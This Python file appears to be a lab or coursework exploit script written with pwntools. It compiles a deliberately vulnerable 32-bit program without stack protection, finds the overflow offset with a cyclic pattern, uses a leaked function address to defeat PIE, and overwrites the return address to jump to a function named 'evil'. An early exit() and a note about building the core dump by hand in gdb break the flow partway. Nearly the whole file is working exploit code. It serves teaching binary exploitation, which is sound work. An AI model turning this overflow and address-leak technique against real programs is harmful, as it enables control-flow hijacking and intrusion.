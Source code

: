 #### exploit_pie.py

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *
import os

#os.system("gcc -m32 -fno-stack-protector -fno-pie overflow.c")
os.system("gcc -m32 -pie -fpie -fno-stack-protector overflow_c.c")

# Set up pwntools for the correct architecture
context.update(arch='i386')
exe = './a.out'

##===========================================================
##                    EXPLOIT GOES HERE
##===========================================================

# Generate a cyclic pattern so that we can auto-find the offset
payload = cyclic(256)
print(payload)


# Get the core dump
print("Just like in the previous part I had some problems with making corefiles work in docker. Hence, once again, copy the printed payload and run the application in gdb, after which I manually created the corefile")
exit()
core = Coredump('./core.1155')

# Our cyclic pattern should have been used as the crashing address
assert pack(core.eip) in payload

# Cool! Now let's just replace that value with the address of 'evil'
crash = ELF('./a.out')

io = process(['./a.out'])
print(io.recvline())
leak = io.recvline()
leak = int(re.search(r'0x[A-Fa-f0-9]+', leak.decode("utf-8")).group()[2:], 16)
print("Leak virtual address of can_you_do_it: ", hex(leak))
print("Address of evil: ", hex(crash.symbols.evil))
print("Address of can_you_do_it: ", hex(crash.symbols.can_you_do_it))

target_addr = leak-(crash.symbols.can_you_do_it-crash.symbols.evil)
print("Address target: ", hex(target_addr))

payload = fit({
    cyclic_find(core.eip): target_addr
})
io.sendline(payload)
print(io.recvline())
print(io.recvline())
```
